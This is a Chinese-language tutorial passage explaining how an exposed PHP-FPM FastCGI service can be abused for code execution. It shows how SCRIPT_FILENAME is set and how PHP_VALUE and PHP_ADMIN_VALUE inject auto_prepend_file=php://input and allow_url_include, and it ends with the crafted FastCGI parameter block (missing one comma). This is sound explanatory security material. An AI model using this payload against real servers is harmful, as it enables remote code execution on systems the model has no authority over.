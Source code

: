 

因为CGI在处理请求的时候会将需要执行的文件打包进FastCGI协议中保存形式为:`'SCRIPT_FILENAME': '/var/www/html/index.php'`.



PHP-FPM不会执行这个文件,但是如果我们能够**控制这个**`**SCRIPT_FILENAME**`**键的值**的话 不就可以指定执行任意php文件？



-  在PHP 5.3.9 之前 可以执行任意已经存在的文件 
-  PHP5.3.9 之后 因为增加了`security.limit_extensions`安全选项，导致只能控制PHP-FPM执行`php34567`这些后缀的文件，且必须找到一个**存在的文件。** 



Nginx会先将请求中的一些重要的信息打包成环境变量发送给PHP-FPM处理，那么我们可以利用的有哪些呢？



我们可以利用到PHP.INI中一些有趣的配置。



`auto_prepend_file` 在执行文件之前，先包含`auto_prepend_file`中的指定文件



`auto_append_file` 在执行文件之后，包含`auto_append_file`中指向的文件



`PHP_VALUE` 设置PHP设置项 允许`PHP_INI_USER`和`PHP_INI_ALL`的选项



`PHP_ADMIN_VALUE` 允许设置所有选项。



所以利用思路就很明确了:



-  我们需要有一个已经存在的PHP脚本文件且知道绝对路径 
-  利用`PHP_VALUE_USER`修改`auto_prepend_file=php://input`  那么在PHP解析器解析这个文件的时候会先包含POST的请求的内容。 
-  因为使用到`php://input`协议，所以我们可以利用`php_admin_value`开启`allow_url_include` 



最后可以构造出来的请求包为：



```php
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```
